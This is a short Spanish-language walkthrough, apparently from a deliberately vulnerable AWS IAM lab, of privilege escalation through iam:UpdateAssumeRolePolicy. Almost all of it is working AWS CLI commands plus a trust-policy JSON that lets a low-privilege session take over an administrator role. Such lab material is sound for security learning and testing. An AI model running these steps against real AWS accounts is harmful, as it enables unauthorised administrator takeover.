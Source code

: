 # Actualización de una AssumeRolePolicy
## iam:UpdateAssumeRolePolicy  
aws iam list-attached-user-policies --user-name privesc14-UpdatingAssumeRolePolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc14-UpdatingAssumeRolePolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc14-UpdatingAssumeRolePolicy-role --role-session-name privesc14  
aws sts get-caller-identity --profile privesc14  
Crear un archivo assume-role-policy.json  
```json
{
  ""Version"": ""2012-10-17"",
  ""Statement"": [
    {
      ""Effect"": ""Allow"",
      ""Principal"": {
        ""AWS"": ""arn:aws:sts::651927172911:assumed-role/privesc14-UpdatingAssumeRolePolicy-role/privesc14""
      },
      ""Action"": ""sts:AssumeRole"",
      ""Condition"": {}
    }
  ]
}
```

aws iam update-assume-role-policy --role-name Rol-Administrador --policy-document file://assume-role-policy.json --profile privesc14  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/Rol-Administrador --role-session-name privesc14admin --profile privesc14  

